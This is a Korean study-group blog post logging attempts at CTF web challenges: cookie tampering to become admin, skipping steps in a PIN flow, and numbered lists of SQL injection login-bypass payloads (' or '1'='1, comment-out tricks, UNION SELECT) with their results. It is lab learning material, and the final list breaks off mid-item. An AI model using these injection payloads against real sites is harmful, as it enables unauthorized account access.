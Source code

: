 ```yaml
---
layout: post
comments: true
title: "[TIL] ctf 풀이"
excerpt: "모의해킹 취업반 스터디 7기 5주차"
date: 2024-11-18
last_modified_at: 
tags: [TIL]
sitemap:
    changefreq: daily
    priority: 0.8
---
```


# get admin
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-1.png?raw=true">
쿠키값을 admin으로 바꾸면 clear

# pin code bypass
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-2.png?raw=true">
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-3.png?raw=true">
step1 -> step2 -> step3일거라 예상
step3로 값 주면 clear

# Login Bypass 1
1. 
id: doldol
pw: dol1234
2. 
doldol' or '1' = '1
dol1234
3. 
normaltic' or '1' = '1
asdf
-> O

# admin is mine
1. 
id: doldol
pw: dol1234
2. 
id: doldol(')#
pw: dol1234
-> 실행X -> python인가? php도 #으로 주석처리가 되는구나??
3. 
id: doldol(')//
pw: dol1234
-> X, 얘는 왜 실행은 되는거냐?
4. 
id: doldol'--
pw: dol1234
-> X
5. 
doldol' join select * from member where userID like 'a%
dol1234
-> X

# login bypass 2
login bypass 1에서 로그인한 상태로 접속하면 로그인 상태로 접속되길래 normaltic2로 시도해봄.
-> login bypass끼리 sql 공유하는 듯
<img src = "https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-18-4.png?raw=true">
플래그는 안 보임 ㄲㅂ
1. 
id: doldol
pw: dol1234
2. 
id: doldol'or
pw: dol1234
3. 
id: doldol'or
pw: dol1234'or
4. 
id: doldol' or
pw: dol1234' or
-> X
5. 
id: normaltic2'#
pw: asdf
-> O

# login bypass 3
1. 
id: doldol'#
pw: dol1234
2. 
id: normaltic3'#
pw: asdf
-> x
3. 
id: doldol') union select 'normaltic3', '1111
pw: 1111
-> x
4. 
id: doldol') union select 'normaltic3', '1111'#
pw: 1111
5. 
id: doldol' union select 'normaltic3', '1111', '2222'#
pw: 1111, 2222
-> x
6. 
id: normaltic3'#
pw: ' or '1' = '1
-> x
7. 
id: doldol
pw: dol1234' or '1' = '1
-> x
8. 
id: doldol')#
pw: dol1234
-> x
9. 
id: doldol'#
pw: dol1234'#
-> x
10. 
id: doldol' or '1' = '1'
pw: dol1234
-> x

# login bypass 4
1. 
id: doldol' or '1' = '1
pw: dol1234
-> x
2. 
id: doldol'#
pw: dol1234
3. 
id: doldol'or
pw: dol1234
-> x
4. 
id: doldol')#
pw: dol1234
-> x
5. 